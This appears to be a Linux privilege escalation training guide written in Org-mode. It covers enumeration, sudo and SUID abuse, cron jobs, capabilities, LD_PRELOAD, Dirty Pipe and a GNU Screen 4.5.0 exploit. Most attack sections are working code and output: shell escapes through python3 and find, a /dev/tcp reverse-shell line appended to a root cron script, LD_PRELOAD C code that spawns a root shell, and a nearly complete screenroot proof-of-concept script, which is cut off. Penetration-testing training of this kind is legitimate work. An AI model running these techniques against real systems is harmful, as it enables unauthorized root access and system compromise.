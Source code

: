 #+title: Linux Privilege Escalation
#+author: gabriel

* intro
Privilege escalation is a process that allows an attacker to gain complete access to the system from limited user rights. In this training, we will start with an introduction to the basic concepts and then delve into various techniques and tools for privilege escalation in Linux operating systems.

Throughout the training, we will cover topics such as sudo, SUID, cron jobs, capabilities, shared libraries, kernel vulnerabilities, and vulnerable services. Additionally, we will use tools and techniques for performing privilege escalation attacks.


* enumeration
The key to privilege escalation is enumeration. There are many helper scripts (like LinEnum) available for enumeration. However, it is also important to understand what information to look for and how to perform enumeration manually

*OS Version* ->
Knowing the Linux distribution used on the target system (Ubuntu, Debian, FreeBSD, Fedora, SUSE, Red Hat, CentOS, etc.)

*Kernel Version* ->
Just like the operating system version, there may be public exploits targeting vulnerabilities in specific kernel versions. Kernel exploits can cause system instability and even complete system crashes.

*Running services* ->
Knowing which services are running on the server is crucial, especially those running as root. Misconfigured or vulnerable services running as root can provide a good avenue for privilege escalation attacks.

* Listing active processes
#+begin_src sh
root💀hackerbox:~# ps aux | grep root
root           1  0.8  1.1  98992 10920 ?        Ss   01:25   0:01 /sbin/init
root           2  0.0  0.0      0     0 ?        S    01:25   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   01:25   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   01:25   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I    01:25   0:00 [kworker/0:0-events]
root           6  0.0  0.0      0     0 ?        I<   01:25   0:00 [kworker/0:0H-events_highpri]
root           7  0.0  0.0      0     0 ?        I    01:25   0:00 [kworker/u2:0-events_unbound]
root           8  0.0  0.0      0     0 ?        I<   01:25   0:00 [mm_percpu_wq]
root           9  0.0  0.0      0     0 ?        S    01:25   0:00 [rcu_tasks_rude_]
#+end_src

*Logged-in Users* ->
Knowing which users are logged in and what they are doing can provide more information about possible local lateral movement and privilege escalation paths.

*Installed packages and versions* ->
 Like running services, it is important to check for any outdated or vulnerable services/packages that can be easily used for privilege escalation.

#+begin_src sh
root💀hackerbox:~# ps au
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         671  0.0  0.1   5880  1072 tty1     Ss+  01:25   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root         672  0.0  5.6 579460 55780 tty7     Ssl+ 01:25   0:00 /usr/lib/xorg/Xorg :0 -seat seat0 -auth /var/run/lightdm/root/:0 -nolisten tcp vt7 -no
root        1548  0.0  0.5   8196  5128 pts/0    Ss   01:26   0:00 bash
root        1668  0.0  0.1   9704  1500 pts/0    R+   01:28   0:00 ps au
#+end_src

* home directory content of users
Can you access other users' home directories? User home folders can contain SSH keys, browser-stored passwords, or configuration files and scripts with credentials used to access other systems.
#+begin_src sh
root💀hackerbox:~# ls -la

total 184
drwx------ 29 root      root       4096 Mar 15 01:25 .
drwxr-xr-x 18 root      root       4096 Mar 11 00:09 ..
-rw-r--r--  1 root      root       4622 Jan 12 09:59 .bashrc
-rw-r--r--  1 root      root       4622 Jan 12 09:59 .bash_history
drwxr-xr-x 23 root      root       4096 Mar 14 02:37 .config
drwxr-xr-x  2 root      root       4096 Mar 14 02:33 config
-rw-------  1 root      root          0 Mar 15 01:25 .history
drwx------  4 root      root       4096 Feb 27  2023 .mozilla
-rw-r--r--  1 root      root        198 Feb 27  2023 .profile
drwx------  2 root      root       4096 Mar 12 02:23 .ssh
#+end_src


** ssh directory contents
If you find an SSH key for your current user, it can be used to open an SSH session on the machine. SSH keys can also be used to access other systems within the network.

#+begin_src sh
root💀hackerbox:~# ls -l .ssh

total 12
-rw------- 1 root root 1 Mar 12 02:23 known_hosts
-rw------- 1 root root 1 Mar 12 02:23 id_rsa
-rw-r--r-- 1 root root 1 Mar 12 02:23 id_rsa.pub
#+end_src

** bash history
Checking a user's bash history is important, as it might reveal passwords being passed as command-line arguments, interactions with git repositories, setting up cron jobs, and more.
#+begin_src sh
root💀hackerbox:~# history
1  ps aux
2  clear
3  cd /root
4  cat password.txt
5  cd .ssh/
6  ls
7  ssh -i id_rsa root@172.10.3.5
8  history
#+end_src

** sudo - listing user privilges
Users on the system might run any commands as another user or as root through the sudo (SuperUserDO) mechanism. However, to exploit sudo privileges, you might need the user's password.
#+begin_src sh
root💀hackerbox:~# sudo -l
Matching Defaults entries for root on hackerbox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for root:
    Defaults!/etc/ctdb/statd-callout !requiretty

User root may run the following commands on hackerbox:
    (root) NOPASSWD: /usr/bin/crontab
#+end_src

** configuration files
Configuration files can contain important information. Usernames, passwords, and other secret keys can be searched within files ending with extensions such as .conf and .config.

** cron jobs
Cron jobs in Linux systems are scheduled tasks. They are commonly set up for maintenance and backup tasks. Misconfigurations with loose permissions can allow scheduled tasks to be exploited for privilege escalation.
#+begin_src sh
root💀hackerbox:~# cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#+end_src

** file systems and additional drives
If you discover and can mount an additional drive or unmounted file system, these drives may contain sensitive files, passwords, or backups that can be used for privilege escalation.
#+begin_src sh
root💀hackerbox:~# lsblk

NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   24G  0 disk
├─sda1   8:1    0   23G  0 part /
├─sda2   8:2    0    1K  0 part
└─sda5   8:5    0  975M  0 part [SWAP]
sr0     11:0    1  231M  0 rom
#+end_src

** finding writable directories
If you need to download tools to the system, it is important to know which directories are writable. You may find a writable directory into which a scheduled task (cron job) places files. If the script executed by the scheduled task is writable, it can be used to escalate privileges.
#+begin_src sh
root💀hackerbox:~# find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
/dev/mqueue
/dev/shm
/tmp
/tmp/.X11-unix
/tmp/.XIM-unix
/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-apache2.service-EwDgXk/tmp
/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-colord.service-WFLdVf/tmp
/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-tor@default.service-d9bNO5/tmp
/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-upower.service-TIjpGs/tmp
/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-systemd-timesyncd.service-EJMeLx/tmp
/tmp/.ICE-unix
/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-systemd-logind.service-rOWFA7/tmp
/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-ModemManager.service-CEASNE/tmp
/tmp/.font-unix
/tmp/.Test-unix
/var/lib/php/sessions
/var/tmp
/var/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-colord.service-TGhpRJ/tmp
/var/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-upower.service-FQGJT6/tmp
/var/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-ModemManager.service-UOAw2C/tmp
/var/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-apache2.service-u2xfPZ/tmp
/var/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-systemd-logind.service-rc6qVk/tmp
/var/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-tor@default.service-P6rkag/tmp
/var/tmp/systemd-private-9c56bb8d08a2485e9261acac1ff3cb4a-systemd-timesyncd.service-gE0G2B/tmp
/proc
/run/lock
#+end_src


** finding writable files
While modifying configuration files can be risky for the system's proper functioning, minor changes can sometimes provide greater access. Additionally, any script files run as root by scheduled tasks (cron jobs) can be slightly modified for privilege escalation.
#+begin_src sh
root💀hackerbox:~# find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
/var/lib/gems/3.1.0/gems/evil-winrm-3.5/LICENSE
/var/lib/gems/3.1.0/gems/evil-winrm-3.5/evil-winrm.rb
/var/lib/gems/3.1.0/gems/evil-winrm-3.5/bin/evil-winrm
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.access
/sys/kernel/security/tomoyo/self_domain
/etc/config/burpsuite-settings.json
/proc
/usr/local/bin/clean_logs.sh
#+end_src


* abusing sudo privileges
Sudo privileges can be given to a user, allowing them to execute commands with the rights of the root user. When a command is run with sudo, the system will check whether the user executing the command has the appropriate rights as configured in /etc/sudoers. Upon gaining access to a system, you should run sudo -l to check if the current user has any sudo privileges.
#+begin_src sh
user@hackerbox:~$ sudo -l
Matching Defaults entries for user on hackerbox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User user may run the following commands on hackerbox:
    (ALL : ALL) NOPASSWD: /usr/bin/python3
#+end_src

Misconfiguring sudo privileges is a possible error. For example, a user might be granted the ability to run commands with root privileges without requiring a password.

According to the configuration in the improperly set up sudoers file above, the "user" account has the right to run the "python3" command with root privileges and without a password. In this case, an attacker might attempt privilege escalation by using the -c cmd parameter of the python3 command.
#+begin_src python
user@hackerbox:~$ python3 -h
usage: python3 [option] ... [-c cmd | -m mod | file | -] [arg] ...
Options (and corresponding environment variables):
<...SNIP...>
-c cmd : program passed in as string (terminates option list)
-d     : turn on parser debugging output (for experts only, only works on
        debug builds); also PYTHONDEBUG=x
-E     : ignore PYTHON* environment variables (such as PYTHONPATH)
-h     : print this help message and exit (also -? or --help)
-i     : inspect interactively after running script; forces a prompt even
        if stdin does not appear to be a terminal; also PYTHONINSPECT=x
-I     : isolate Python from the user's environment (implies -E and -s)
-m mod : run library module as a script (terminates option list)
<SNIP>
#+end_src

Let's attempt to open a new bash shell running with root privileges by executing python3 with the -c parameter.
: python3 -c 'import os; os.system("/bin/bash")'


* suid - special permissions
The Set User ID (setuid) permission allows a user to run a program or script with the permissions of another user, typically with root privileges.

The SUID bit appears as an s in the permissions section of a directory listing. We can find files with the SUID bit set by running the following command:
#+begin_src sh
user@hackerbox:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 302904 Mar 14 02:38 /opt/BurpSuiteCommunity/burpbrowser/122.0.6261.111/chrome-sandbox
-rwsr-sr-x 1 root root 14608 Feb  1  2023 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-- 1 root messagebus 51336 Oct  5  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 555584 Dec 21 10:07 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 52808 May 25  2023 /usr/lib/mongodb-compass/chrome-sandbox
-rwsr-xr-x 1 root root 146480 Dec  3 07:58 /usr/sbin/mount.nfs
-rwsr-xr-x 1 root root 48128 Aug 26  2022 /usr/sbin/mount.cifs
-rwsr-xr-x 1 root root 1360680 Jul 13  2021 /usr/sbin/exim4
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /usr/bin/su
-rwsr-xr-x 1 root root 182600 Jan 14  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 35048 Jun 20  2021 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 158448 Nov  2  2022 /usr/bin/ntfs-3g
-rwsr-xr-x 1 root root 23448 Jan 13  2022 /usr/bin/pkexec
#+end_src

Reverse engineering a program with the SUID bit set may reveal a vulnerability that can be exploited to escalate our privileges. Many programs have additional special permissions that can be used to execute commands. If the SUID bit is set, these programs can be used for privilege escalation.

The Set-Group-ID (setgid or SGID) permission is another special permission that allows us to define an execution permission specific to the group to which binary files belong
#+begin_src sh
user@hackerbox:~$ find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-sr-x 1 root root 14608 Feb  1  2023 /usr/lib/xorg/Xorg.wrap
#+end_src

** GTFOBins
GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions on misconfigured systems (privilege escalation). For each binary, it details specific payloads and parameters that can be used to break out of restricted shells, escalate privileges, create reverse shells, or read files.
#+begin_src sh
user@hackerbox:~$ ls -l /usr/bin/find
-rwsr-xr-x 1 root root 311008 Jan  9  2021 /usr/bin/find

user@hackerbox:~$ find . -exec /bin/bash -p \; -quit
root💀hackerbox:~# id
uid=0(root) gid=0(root) groups=0(root)
#+end_src


* abusing schedule tasks
Cron jobs are a scheduling service in the Linux operating system used for executing commands or scripts automatically at specified times. Users can schedule processes to run at specified intervals (e.g., daily, weekly) or at specific times

The crontab command is used to create a cron file that will be executed by the cron daemon at specified times. Each entry in the crontab file requires six fields: minute, hour, day, month, week, command.
: 0 2 * * *   /home/user/backup.sh

For system-wide tasks, the /etc/crontab file is used. This file specifies the username for the scheduled tasks, allowing tasks to be run with the permissions of the specified user. This file can only be edited by the root user or a user with full sudo privileges, but it can still be abused.

. If you find a script that runs with root privileges and is writable by everyone, you can add commands to the end of the script. When the cron job runs, the commands you added will also be executed with root privileges.
: 0 2 * * *   root    /root/backup.sh

** example scenario
#+begin_src sh
user@hackerbox:~$ ls -l /etc/crontab
-rw-r--r-- 1 root root 1042 Feb 22  2021 /etc/crontab
user@hackerbox:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

# * *    * * *   root    /usr/local/bin/backup_log.sh
#+end_src

As seen above, we do not have permission to edit the /etc/crontab file. At the bottom of the file, we see an entry where the backup_log.sh script is scheduled to run every minute as root.

#+begin_src sh
user@hackerbox:~$ ls -l /usr/local/bin/backup_log.sh
-rwxrwxrwx 1 root root 92 Feb 14 14:20 /usr/local/bin/backup_log.sh
user@hackerbox:~$ cat /usr/local/bin/backup_log.sh
#!/bin/bash

# Config
source /var/config

# Backup
BACKUP_FILE="${LOG_PATH}_backup_$(date +%Y%m%d%H%M%S).log"
cp "$LOG_PATH" "$BACKUP_FILE"
#+end_src

We see that we have permission to edit the backup_log.sh script, which runs as a scheduled task. Let's add the following command to the end of the script to gain a reverse shell. For generating reverse shell payloads, refer to: https://www.revshells.com/
: user@hackerbox:~$ echo "sh -i >& /dev/tcp/172.18.2.47/4444 0>&1" >> /usr/local/bin/backup_log.sh

Then, use the netcat command to listen on port 4444 and wait for the reverse shell connection.
#+begin_src sh
user@hackerbox:~$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listenin on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.18.2.47.
Ncat: Connection from 172.18.2.47:49283.

# id
uid=0(root) gid=0(root) groups=0(root)
#+end_src

* capabilities
Linux Capabilities are an access control mechanism that allows the operating system to assign specific privileges to processes rather than giving them all the privileges of the root user. This increases system security by ensuring processes only have the permissions they need.

For instance, an application does not need root access to listen on network ports; it only requires the CAP_NET_BIND_SERVICE capability. This feature allows for more precise control over which processes have access to specific privileges, making it more secure than Unix's traditional model of granting privileges to users and groups.

** set capabilit
Capabilities can be set using the setcap command, which allows us to assign specific capabilities to executable files or programs. This command lets us specify the capability we want to set and the value we want to assign.

For example, to set the cap_net_bind_service capability for an executable file, we can use the following command:
#+begin_src sh
root💀hackerbox:~# setcap cap_net_bind_service=+ep /usr/bin/vimroot💀hackerbox:~# setcap cap_net_bind_service=+ep /usr/bin/vim
#+end_src

When capabilities are set for a program, it means the program can perform certain actions that it couldn't without those capabilities.  For example, if the cap_net_bind_service capability is set for a program, it can bind to network ports, which is usually a restricted privilege.

Some capabilities, such as ~cap_sys_admin~, which allows an executable file to perform actions with administrative privileges, can be dangerous if not used correctly.

| Capability | Description
| cap_sys_admin | Allows actions with administrative privileges, such as modifying system files or system settings.
| cap_sys_chroot | Allows changing the root directory of the current process, granting access to otherwise inaccessible files and directories.
| cap_sys_ptrace | Allows attaching to and debugging other processes, granting access to sensitive information or altering other processes' behavior.
| cap_sys_nice | Allows increasing or decreasing the priority of processes, granting access to resources that would otherwise be restricted.
| cap_sys_time | Allows changing the system clock, potentially manipulating timestamps or causing other processes to behave unexpectedly.
| cap_sys_resource | Allows altering system resource limits, such as the maximum number of open file descriptors or the maximum amount of allocated memory.
| cap_sys_module | Allows loading and unloading kernel modules, potentially altering the operating system's behavior or gaining access to sensitive information.
| cap_net_bind_service | Allows binding to network ports, potentially granting access to sensitive information or performing unauthorized actions.
| cap_dac_override | Allows bypassing file permissions to access files.
| cap_sys_rawio | Grants the authority to perform I/O operations.
| cap_net_raw | Allows processes to create RAW and PACKET sockets.
| cap_setuid | Allows setting the effective user ID of the spawned process (including the root user ID).

When a program runs with capabilities, it can perform actions allowed by those capabilities. This provides more granular control over the program's privileges and helps address security vulnerabilities and prevent unauthorized access to sensitive information.

** setcap basic usage
When using the setcap command to set capabilities for an executable file in Linux, we need to specify the capability we want to set and the value we want to assign.

The values we use will depend on the capability we are setting and the privileges we want to grant to the executable file. Here are some example values we can use with the setcap command and a brief explanation of what they do:

| Capability Value | Description
| = | Sets the specified capability for the program but does not grant any privileges. This can be useful when we want to clear a previously set capability for a program.
| +ep | Grants effective and permitted privileges for the specified capability to the executable file. This allows the program to perform actions permitted by the capability but not any actions not allowed by the capability.
| +ei | Grants effective and inherited privileges for the specified capability to the program. This allows the program to perform actions permitted by the capability and the capability to be inherited by child processes.
| +p | Grants permitted privileges for the specified capability to the executable file. This allows the executable to perform actions permitted by the capability but not any actions not allowed by the capability. This can be useful if we want to grant the capability to an executable but prevent it from inheriting the capability to child processes.

Various Linux capabilities can be used to escalate privileges to the root level:
| Capability | Description
| cap_setuid | Allows a process to set its effective user ID (including the root user ID), which can be used to gain the privileges of another user.
| cap_setgid | Allows setting the effective group ID, which can be used to gain the privileges of another group (including the root group).
| cap_sys_admin | This capability provides a wide range of administrative privileges, including changing system settings and mounting/unmounting file systems.
| cap_dac_override | Allows skipping file read, write, and execute permission checks.

** enumerating capabilities
Enumerating capabilities on a Linux system is important for ensuring system security. Below are the steps and commands to list and analyze existing capabilities:

First, determine where the getcap command is located on the system using the whereis command
#+begin_src sh
whereis getcap

getcap: /usr/sbin/getcap /usr/share/man/man8/getcap.8.gz
#+end_src

*** listing capabilities with getcap
: /usr/sbin/getcap -r / 2>/dev/null

This command scans all files on the system and lists the capabilities and their values assigned to each file. An example output might be:

#+begin_src sh
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/dumpcap cap_net_admin,cap_net_raw=eip
/usr/bin/vim cap_net_bind_service=+ep
#+end_src

* shared libraries
It is common for programs to use dynamically shared libraries. Libraries consist of compiled code that developers use to avoid rewriting the same code for multiple programs. There are two types of libraries in Linux: static libraries (denoted by the .a file extension) and dynamically linked shared object libraries (denoted by the .so file extension).

There are multiple ways to specify the location of dynamic libraries. During compilation, we can use the -rpath or -rpath-link flags, or the LD_RUN_PATH or LD_LIBRARY_PATH environment variables to specify the location of dynamic libraries.

Moreover, the LD_PRELOAD environment variable can load a library before executing a binary file. The functions in this library override the default functions.

The shared libraries required for a binary to run can be viewed using the ldd utility.
#+begin_src sh
root💀hackerbox:~# ldd /bin/ping
linux-vdso.so.1 (0x00007ffe891fa000)
libcap.so.2 => /lib/x86_64-linux-gnu/libcap.so.2 (0x00007f0221bd4000)
libidn2.so.0 => /lib/x86_64-linux-gnu/libidn2.so.0 (0x00007f0221bb3000)
libresolv.so.2 => /lib/x86_64-linux-gnu/libresolv.so.2 (0x00007f0221ba2000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f02219c0000)
libunistring.so.2 => /lib/x86_64-linux-gnu/libunistring.so.2 (0x00007f022183e000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0221c0e000)
#+end_src

** LD_PRELOAD Privilege escalation technique
Let's look at an example of how we can use the LD_PRELOAD environment variable to escalate privileges. For this, we need a user with sudo privileges.
#+begin_src sh
user@hackerbox:~$ sudo -l
Matching Defaults entries for user on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User user may run the following commands on debian:
    (ALL) NOPASSWD: /usr/local/bin/sys_backup
#+end_src

This user has the right to run the sys_backup program as root. However, this sys_backup program is not listed in GTFOBins, and since the /etc/sudoers entry specifies an absolute path, it cannot normally be used for privilege escalation.

To use LD_PRELOAD for privilege escalation, save the following code in a file named escalate.c.
#+begin_src c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0, 0, 0);
    system("/bin/bash -p");
}
#+end_src

Then compile the code and produce the shared library output with the following command:
: user@hackerbox:~$ gcc -fPIC -shared -nostartfiles -o /tmp/escalate.so escalate.c

Finally, we can escalate our privileges by running the following command:
#+begin_src sh
user@hackerbox:~$ sudo LD_PRELOAD=/tmp/escalate.so /usr/local/bin/sys_backup
root💀hackerbox:~# id
uid=0(root) gid=0(root) groups=0(root)
#+end_src

* dirty pipe
A security vulnerability found in the Linux operating system, known as Dirty Pipe (CVE-2022-0847), allows unauthorized users to write to root user files on the system. This vulnerability is technically similar to the Dirty Cow vulnerability discovered in 2016, which had a similar mechanism.

Most versions of the Linux kernel from 5.8 onwards are affected by this vulnerability. Specifically, it affects Linux kernel versions from 5.8 to 5.15.25.12.

The Dirty Pipe vulnerability leverages pipes, a mechanism frequently used in Unix systems for unidirectional inter-process communication. For example, by modifying the /etc/passwd file, we can allow the root user to log in directly without asking for a password.

** dirty pipe exploit
Let's download an exploit repository published on GitHub and compile the exploits.
- https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/

  #+begin_src sh
user@hackerbox:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
user@hackerbox:~$ cd CVE-2022-0847-DirtyPipe-Exploits
user@hackerbox:~$ bash compile.sh
  #+end_src

  After compiling the exploit code, we have two different exploits. The first exploit (exploit-1) modifies the /etc/passwd file and grants us a root command prompt. For this, we need to verify the kernel version and then run the exploit.

  *get the kernel version* ->
  #+begin_src sh
user@hackerbox:~$ uname -r
5.11.0-051100-generic
  #+end_src

** exploit 1
#+begin_src sh
user@hackerbox:~$ ./exploit-1
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

# id

uid=0(root) gid=0(root) groups=0(root)
#+end_src

** exploit 2
With the second exploit (exploit-2), we can run SUID binary files with root privileges. However, to do this, we first need to find these SUID binary files. We can use the following command:
#+begin_src sh
user@hackerbox:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
/usr/bin/newgrp
#+end_src

Next, we can select a binary and run the exploit by specifying the full path of the binary as an argument.
#+begin_src sh
user@hackerbox:~$ ./exploit-2 /usr/bin/su
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami

root
#+end_src

* vulnerable services
Many vulnerable services can be exploited for privilege escalation. One example is the Screen service, a commonly used terminal multiplexer. A privilege escalation vulnerability exists in version 4.5.0 of the Screen service due to a lack of permission checks when opening a log file.
#+begin_src sh
user@hackerbox:~$ screen -v
Screen version 4.05.00 (GNU) 10-Dec-16
#+end_src

This vulnerability allows an attacker to create a file owned by root in any directory and gain root access.

** privilege escalation - Screen_Exploit.sh
We can download and run the exploit related to the Screen service to escalate our privileges. https://www.exploit-db.com/exploits/41154

#+begin_src sh
user@hackerbox:~$ ./screen_exploit.sh

~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/user.

# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),1000(user)
#+end_src

** screen_exploit_poc.sh
Here is the proof-of-concept script for the exploit:
#+begin_src sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
